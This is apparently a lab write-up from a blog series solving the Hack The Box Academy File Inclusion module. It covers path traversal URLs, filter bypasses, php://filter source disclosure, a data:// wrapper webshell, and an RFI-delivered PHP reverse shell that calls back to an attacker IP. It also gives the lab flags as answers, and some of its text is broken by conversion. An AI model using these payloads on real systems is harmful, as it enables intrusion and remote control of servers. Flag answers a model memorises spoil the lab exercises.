Welcome to **Part 9** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **File Inclusion** (Tier I • Medium • Offensive). We break down the underlying mechanics of Local File Inclusion (LFI), Remote File Inclusion (RFI), directory traversal filters, PHP wrappers (filter, input, data), and log poisoning to achieve Remote Code Execution (RCE), dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-8-command-injections/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 8: Command Injections & Filter Evasion</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 9 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-10-attacking-common-services/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 10: Attacking Common Services (SMB, SQL, RDP, SSH)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `File Inclusion` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/23](https://academy.hackthebox.com/module/23) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 9 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Path Traversal Tradecraft**: Bypasses prefix/suffix path concatenation using relative traversal sequences (`../`, `..%2f`), absolute paths, and null-byte termination.
* **PHP Stream Wrappers**: Exploits `php://filter` for base64 source code extraction, `php://input` for direct payload execution, and `data://` wrappers.
* **Log Poisoning to RCE**: Injects PHP payloads into Apache/Nginx access logs, SSH auth logs, or mail logs and executes them via LFI inclusion.
* **Session File Poisoning**: Manipulates PHP session data (`/var/lib/php/sessions/sess_*`) to achieve reliable code execution.
* **RFI Exploitation Chains**: Leverages external HTTP/FTP servers to force remote file loading when `allow_url_include` is enabled.

## Executive Summary & Assessment Scope

File Inclusion vulnerabilities arise when web applications dynamically include local or remote files without validating user-supplied path parameters. Local File Inclusion (LFI) exposes critical server files, while Remote File Inclusion (RFI) enables direct arbitrary code execution.

This module provides a comprehensive technical walkthrough of file inclusion mechanics. We analyze path traversal filters, weaponize PHP stream wrappers for source code disclosure, execute log poisoning attacks, and achieve full remote code execution to extract every flag.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### File Inclusion

> **Lab Question (Page 1)**: Using the file inclusion find the name of a user on the system that starts with "b".
>
> **Flag / Answer**: `barry`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter to the website using the target IP and target port provided
for us:

Lets enter the language tab:

There are 2 languages, lets select one of them arbitrary:


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


*_Figure 1.2 — Lab execution and output verification (Page 1)_*


*_Figure 1.3 — Lab execution and output verification (Page 1)_*


### located – '/etc/passwd'. (full path wont work)

The file name 'en.php' appears on the URL, undicating the website in retrieving
the content in the English language from a file called 'en.php' located on the
web server machine, we can assume the Spanish page retrieved in a similar
manner.
Now those files are retrieves from the current directory the server is operating
on. So lets try to use relative path to obtain the file where the usernames are
located – '/etc/passwd'. (full path wont work):
http://<target-IP>:<target-
port>/index.php?language=../../../../etc/passwd
*the reason we need 4 '../' is because in default linux web servers (apache in
this case, we can determine by looking at the http response header), operate in
'/var/www/html' and in it the 'languages' directory, where the languages
contents are stored..
Often using relative paths will require trial and error.. anyway 4 '../'. *:

The content of /etc/passwd appears on the history paragraph, lets scroll down
a bit:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


> **Lab Question (Page 3)**: Submit the contents of the flag.txt file located in the /usr/share/flags directory.
>
> **Flag / Answer**: `HTB{n3v3r_tru$t_u$3r_!nput}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the same principal as the last question:
http://<target-IP>:<target-
port>/index.php?language=../../../../usr/share/flags/flag.tx
t


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


### Basic Bypasses

> **Lab Question (Page 4)**: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt
>
> **Flag / Answer**: `HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the target website in this question has simple URL defenses:
a. it expects the path to begin with 'languages/'.
b. it does simple truncation of '../'  - meaning the server sides removes every
occurences of the string.
So the bypassing it will be simple, for rule a we will simply begin the path with
'languages', and for rule b we will insert '….//' instead of '../', the server side
will truncate the '../' from '….//' ('....//') so the output will be '../' – what we
need, we will multiply that 4 times to get to the base directory '/':
http://<target-IP>:<target-port>/index.php?
languages/....//....//....//....//flag.txt


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


### PHP Filters

> **Lab Question (Page 5)**: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt
>
> **Flag / Answer**: `HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First lets run bruteforce with the tool 'fuff' to find php pages, using
the wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-
small.txt' which is pre-installed on the pwnbox.  we will use the command:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-
```
list-2.3-small.txt:FUZZ -u http://<target-IP>:<target-
port>/FUZZ.php


*
*

There is this 'configure' php page (when it comes to php, all response codes
matter, not just the 200 OK.


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### request

Now lets try to access it on the browser, normal access will not work – there
are defenses in place against this, so we will base-64 encode our URL path
request:
http://<target-IP>:<target-
port>/index.php?language=php://filter/read=convert.base64-
encode/resource=configure


We get the base64 encoded 'configure.php'.
Lets decode it:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### PHP Wrappers

> **Lab Question (Page 7)**: Try to gain RCE using one of the PHP wrappers and read the flag at /
>
> **Flag / Answer**: `HTB{d!$46l3_r3m0t3_url_!nclud3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets determine the server which operates the website.
It can be done by inspecting the responses header, on the network tab on
browser developer tools:

The website is being run by 'Apache' server, on Ubuntu-Linux OS.
Now that we know it is apacher server, we know that the php configuration file
is located in '/etc/php/X.Y/apache2/php.ini'.
We can obtain it using the directory traversal + base 64 encoding Local File
Inclusion technique:

http://<target-IP>:<target-
port>/index.php?language=php://filter/read=convert.base64-
encode/resource=../../../../etc/php/7.4/apache2/php.ini


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


### are going to do

Here is the base64 encoded php configuration file, lets decode it:

We can see in the decoded window – the beginning of the php configuration
file. We are looking for the field.

In it – we will look for the property 'allow_url_include', make sure its ON:

The 'allow_url_include' is a PHP configuration directive that controls whether
you can include or require remote files over HTTP or FTP (using a URL) in your
PHP scripts.

Which means we can include external file to the webserver, and that's what are
are going to do:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### and run simple command to confirm it works

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

in this command we take basic php webshell and base64 encode it (which
required due to the server security mechanism.


Now we can put it on 'data://text/plain;base64' wrapper, and enter it as URL,
and run simple command to confirm it works:
http://<target-IP>:<target-
port>/index.php?language=data://text/plain;base64,PD9waHAgc3
lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id


It works! We got the output for 'id' command.
Lets replace the 'id' with 'ls /':
http://<target-IP>:<target-
port>/index.php?language=data://text/plain;base64,PD9waHAgc3
lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls /


It seems this weird '37809e2f8952f06139011994726d9ef1.txt' is our flag.


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


### Lets cat it

> **Lab Question (Page 10)**: Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /
>
> **Flag / Answer**: `99a8fc05f033f2fc0cf9a6f9826f83f4`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in this question unlike previous questions, the website is being run on
default http port 80 and not random target port.
So lets enter the website:
http://<target-IP>

and we do similar process to obtain the php configuration file and confirm
'allow_url_include' is active:
http://<target-
IP>/index.php?language=php://filter/read=convert.base64-
encode/resource=en.php


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


### other security mechanism

good. Its on. Lets proceed.
*note – 'allow_url_include' is a requirement for remote file inclusion, but that
it self is not guaranteed to always work in real world environment. *

As adviced on the section's guide, we will first attempt to include a local URL,
to make sure it will not get blocked by web application firewall (WAF) or any
other security mechanism:
http://<target-
IP>/index.php?language=http://127.0.0.1:80/index.php


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### where we created the shell.php


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### directory, we will enter the following URL

It works. Now we need to find the flag.

We will take the remote file inclusion one step further and initiate reverse
shell.
First lets set the listener on the pwnbox, we will listen on port 4444:
```bash
nc -lnvp 4444
```


Next, on the same directory where we set the normal shell.php, we will create
a new file called 'reverse_shell.php'
There we will enter the following content to the 'reverse_shell.php':
<?php
$ip = '<attacker-IP>';  // Attacker IP
$port = 4444;         // Attacker port
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2
=> $sock), $pipes);
?>
*do make sure to change <attacker-IP> to your attacking machine's IP . *

Next, of course while the python server is running on the 'reverse_shell.php'
directory, we will enter the following URL:
http://<target-IP>/index.php?language=http://<attacker-
IP>:8080/reverse_shell.php

